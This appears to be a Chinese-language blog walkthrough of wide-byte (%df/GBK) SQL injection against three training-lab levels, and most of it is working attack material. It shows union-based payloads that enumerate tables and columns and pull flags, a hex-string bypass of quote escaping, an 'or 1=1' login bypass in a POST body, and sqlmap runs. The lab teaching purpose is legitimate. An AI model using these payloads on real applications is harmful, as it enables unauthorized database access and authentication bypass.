 ```yaml
---
layout: post
title: SQL注入之 宽字节注入
categories: [SQL注入, 安全, sqlmap]
description: SQL注入之 宽字节注入, 使用 sqlmap 跑结果
keywords: SQL注入, sqlmap
---
```


# SQL注入之 宽字节注入

> http://inject2.lab.aqlab.cn:81/Pass-15/index.php?id=1

利用原理： 利用**数据库** 支持的 **多字节** 编码特性， 将 **转义符号 的 `编码` ** 与**`编码`** 顺位组合， 使 **转义符号** 失去原有的意义， 从而达到逃脱的目的。

1. 这里 **多字节**  不一定是 **双字节** 如 （GBK）。 在其他字符集环境下，可能是其他字节， 例如 **UTF-8 的三字节** 。
2. 在最左侧闭合逃脱的时候，可以使用 **宽字节** 方法逃脱 ， 常用的是 **` %df\ `**， 也可以与其他字符码组合。
3. 在 sql 语句中， 如果继续使用 **%df** , 会对 sql 造成误伤（本质上会生成新的字符）， 因此在 sql 语句中，可以使用 **0x??????** 的 **16进制** 符号代替字符串。


# 宽字节注入（一）

## 测试 魔术引号

```bash
http://inject2.lab.aqlab.cn:81/Pass-15/index.php?id=1%27%22)
```

![](https://nc0.cdn.zkaq.cn/md/8461/3c4c8f104fb3559efeca5a428b37deaa_96008.png)

通过截图发现， ` ' " ` 引号都有被**魔术引号** 转义。 但**括号** 并没有。


因此在处理这几部分的时候， 需要额外注意。


## 判断显示点

```bash
# 查询显示点
http://inject2.lab.aqlab.cn:81/Pass-15/index.php?id=1%df' and 1=2 union select 1,2,3 -- gg
```

![](https://nc0.cdn.zkaq.cn/md/8461/e3dd20b1e8812d0b38bee2be1fcf19fd_15267.png)

通过结果判断， 显示点在 2 和 3 。

## 查询数据库

```bash
http://inject2.lab.aqlab.cn:81/Pass-15/index.php?id=1%df' and 1=2 union select 1,2,database() -- gg

```

![](https://nc0.cdn.zkaq.cn/md/8461/d39384d8f4fceab19cdc0e71c47d61a6_71069.png)

库名为 `wildchar`

## 查询表

```bash
http://inject2.lab.aqlab.cn:81/Pass-15/index.php?id=1%df' and 1=2 union select 1,999,(  select group_concat(table_name) from information_schema.tables where table_schema=database()  ) -- gg
```


![](https://nc0.cdn.zkaq.cn/md/8461/bb31b1fc5bdca1e11245da7f06e2505e_87045.png)


![](https://nc0.cdn.zkaq.cn/md/8461/ef819b2289c90f70c0d15b05c5fe1588_66026.png)

通过结果可以确认， 2张表，分别是

> china_flag,user

## 查询列


```bash
http://inject2.lab.aqlab.cn:81/Pass-15/index.php?id=1%df' and 1=2 union select 1,999,(  select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='china_flag' ) -- gg
```

![](https://nc0.cdn.zkaq.cn/md/8461/bbe183984228d7393e8b0037c7f1545a_14904.png)

> 注意： 在查询表明的时候，同样出现了 **魔术引号** 转义 单引号。


```bash
http://inject2.lab.aqlab.cn:81/Pass-15/index.php?id=1%df' and 1=2 union select 1,999,(  select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=%df'china_flag%df' ) -- gg
```

![](https://nc0.cdn.zkaq.cn/md/8461/90cfb7be300a0675559e6bfe0d91a7c3_49592.png)

如果直接使用 `%df'` 的方法， 就会在 sql 查询中出现 异常字符。导致 SQL 失败。
因此， 这里应该选择不出现 **引号，括号** 的方法。


**这里使用 16进制 绕过**   http://ctf.ssleye.com/hex.html

+ 16进制规则， `0x?????`

```
http://inject2.lab.aqlab.cn:81/Pass-15/index.php?id=1%df' and 1=2 union select 1,2,( select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x6368696E615F666C6167) -- gg
```

![](https://nc0.cdn.zkaq.cn/md/8461/d311c2a04ef7993aabc41e283b0cee2d_93961.png)

## 查询 FLAG

```
http://inject2.lab.aqlab.cn:81/Pass-15/index.php?id=1%df' and 1=2 union select 1,2,( select group_concat(C_Flag) from china_flag ) -- gg
```

> result : zKaQ-Wide,zKaQ-CAIK,zKaQ-Kzj+mz


# 宽字节注入（二）

```
http://inject2.lab.aqlab.cn:81/Pass-16/index.php?id=1%df%22)%20--%20gg
```

![](https://nc0.cdn.zkaq.cn/md/8461/75ad2c7bda3ab6bcc86128da02fdda90_97691.png)

从提示可以看出， 此处使用 **双引号** 闭合， 与上题单引号类似 ， 下略。


# 宽字节注入 （三） POST

http://inject2.lab.aqlab.cn:81/Pass-17/index.php

通过提交，可以看到， 针对 **单双引号** 开启了转义。

![](https://nc0.cdn.zkaq.cn/md/8461/253ab58af2e47059e90950d54126af4f_87315.png)

同时使用 burpsuite 抓包， 看到所有符号使用了 `urlencode`

![](https://nc0.cdn.zkaq.cn/md/8461/af3e3e701faf016ed6468a5355b8667d_95320.png)

```http
POST /Pass-17/index.php HTTP/1.1
Host: inject2.lab.aqlab.cn:81
Content-Length: 54
Cache-Control: max-age=0
Origin: http://inject2.lab.aqlab.cn:81
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://inject2.lab.aqlab.cn:81/Pass-17/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7
Connection: close

username=%27%29&password=%22&submit=%E7%99%BB%E5%BD%95
```

## 逃脱转义

```http
username=&password=1%df') or 1=1 -- gg

```

![](https://nc0.cdn.zkaq.cn/md/8461/ab85ecb72ce52361e9c78738458fa2e0_55364.png)

使用 `%df'` 逃脱后， 成功登录

## 查找 flag

```http
username=&password=1%df') and 1=2 union select 1,2,3 -- gg
```

![](https://nc0.cdn.zkaq.cn/md/8461/bf62da3ac10845c7d82d0fbbf07bc71c_18467.png)

使用 `union select 1,2,3`  及 `union select 1,2,3,4` 后发现， 此题包含 **盲注**。

这里使用 **布尔盲注** 测试

![](https://nc0.cdn.zkaq.cn/md/8461/fd198351fbe383dd6daa725a14f5a425_50926.png)


### 使用  burpsuite 进行探测

准备 http 文件， 并设置注入点 `username=&password=1%df')*`

> 注意

1. 这里在注入点附近加上 `%df')`， 协助 burpsuite 探测更加正确。


```http
POST /Pass-17/index.php HTTP/1.1
Host: inject2.lab.aqlab.cn:81
Content-Length: 56
Cache-Control: max-age=0
Origin: http://inject2.lab.aqlab.cn:81
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://inject2.lab.aqlab.cn:81/Pass-17/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7
Connection: close

username=&password=1%df')*
```

![](https://nc0.cdn.zkaq.cn/md/8461/d310bb8b75298382cd8c846fbabfe731_44258.png)


**当前库** 
```bash
./sqlmap.py -r 1.txt --current-db
```

> reuslt : current database: 'widechar'

**表和字段**

下略。



# 0xZZ 为什么？

为什么使用 urlcode ， 在 sql 显示正常， 但不能查询。

```bash
http://inject2.lab.aqlab.cn:81/Pass-15/index.php?id=1%df' and 1=2 union select 1,999,(  select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=%26%23%33%39%3bchina_flag%26%23%33%39%3b) -- gg
```

![](https://nc0.cdn.zkaq.cn/md/8461/a92ec5605617c4cb65c54a87dd6d1328_86121.png)




